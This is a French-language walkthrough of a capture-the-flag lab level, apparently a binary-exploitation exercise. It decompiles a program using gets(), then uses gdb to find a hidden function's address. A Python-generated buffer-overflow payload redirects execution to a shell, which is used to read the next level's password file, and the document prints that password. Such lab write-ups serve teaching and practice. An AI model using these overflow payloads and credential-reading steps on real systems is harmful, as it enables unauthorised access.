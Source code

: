 # LEVEL 1
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level2`. 

1. Une fois connecté à la VM sur le `level1`, l'on retrouve un fichier `level1` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

    ```sh
    > scp -P 4242 level1@127.0.0.1:level1 /path/on/machine/host
    ```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).
    
	```sh
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>
	#include <unistd.h>
	#include <sys/types.h>

	void run(void)
	{
		fwrite("Good... Wait what?\n",1,0x13,stdout);
		system("/bin/sh");
		return;
	}

	void main(void)
	{
		char local_50[76];

		gets(local_50);
		return;
	}
	```
	À partir de ce désassemblage, on en déduit que le programme contient 2 fonctions, la fonction `main` et la fonction `run` qui, tout deux, ne prennent aucun paramètre.
	
    La fonction `main` lit des entrées utilisateur dans `local_50` en utilisant la fonction `gets` tandis que la fonction `run` imprime `Good... Wait what?` sur la sortie standard, puis exécute `/bin/sh` avec la fonction `system`, ce qui démarre un shell interactif sur la machine. Cependant, l'on peut constater que la fonction `run` n'est pas appelé par la fonction `main`. Ainsi, il va falloir que l'on trouve un moyen d'appeler cette fonction afin de pouvoir accéder au shell interactif et pouvoir obtenir le mot de passe pour le niveau suivant.

3. Après quelques recherches, on apprend que la fonction `gets` possède une vulnérabilité : cette dernière ne possède pas d'un système de vérification de la taille des données entrées, ce qui signifie que l'utilisateur peut engendrer un buffer overflow. Ainsi, on devrait pouvoir utiliser la fonction `gets` dans le `main` afin de faire un `buffer overflow` (débordement) de la variable `local_50` et ainsi faire pointer la valeur de retour de `main` vers `run`. On sait que la fonction `main` stocke le resultat de `gets` dans une chaîne de `76` caractères. Ainsi, il faudra injecter une chaîne d'au moins `76` caractère dans la variable `local_50` pour qu'il y est `buffer overflow`.

    Lien : https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351

6. Maintenant, que l'on a un plan, l'on doit obtenir l'adresses mémoires de la fonction `run` pour la concaténer à notre chaîne de caractères qui nous servira pour effectuer notre `buffer overflow.` Ainsi, on lance l'exécutable via `gdb` et effectue un `disas` sur la fonction `main` ainsi qu'un `info function` pour obtenir les adresses mémoires des fonctions utilisé par l'exécutable.

    ```sh
    > gdb level1
    > disas main
    Dump of assembler code for function main:
		0x08048480 <+0>:	push   %ebp
		0x08048481 <+1>:	mov    %esp,%ebp
		0x08048483 <+3>:	and    $0xfffffff0,%esp
		0x08048486 <+6>:	sub    $0x50,%esp
		0x08048489 <+9>:	lea    0x10(%esp),%eax
		0x0804848d <+13>:	mov    %eax,(%esp)
		0x08048490 <+16>:	call   0x8048340 <gets@plt>
		0x08048495 <+21>:	leave
		0x08048496 <+22>:	ret
	End of assembler dump.
	> info function
	[...]
		0x08048444  run
		0x08048480  main
	[...]
    ```
    Ainsi, on obtient l'adresse `0x08048444` pour la fonction `run`.

6. Maintenant, l'on doit donc injecter dans `local_50`, en utilisant le `gets`, un payload de 76 de long suivi de l'adresse de `run` (l'adresse doit être en format `little endian`). On utilise python pour générer le payload.
   
	```sh
	> python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload1
	```
	
	Lien : https://dicom.nema.org/medical/dicom/current/output/chtml/part05/sect_7.3.html#:~:text=Little%20Endian%20byte%20ordering%20is,in%20increasing%20order%20of%20significance.

9. Une fois le payload généré, on peut l'injecter dans `./level01` via un `cat -` (le tiret permet de garder le `cat` ouvert et de pouvoir écrire ce qu'on veut dedans). À partir de là, on lance la commande `whoami` pour s'assurer que l'utilisateur a bien changé de `level1` à `level2` et on `cat` le fichier `/home/user/level2/.pass` pour obtenir le mot de passe qui nous permettra d'accéder au niveau suivant.
    
	```sh
	> cat /tmp/payload1 - | ./level1
	> whoami
	level2
	> cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```

10. On peut à présent passer au niveau supérieur en exécutant la commande `su level2` et en y spécifiant le mot de passe qui vient d'être trouvée. 
    
	```sh
    > su level2
    Password :
	> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
    ```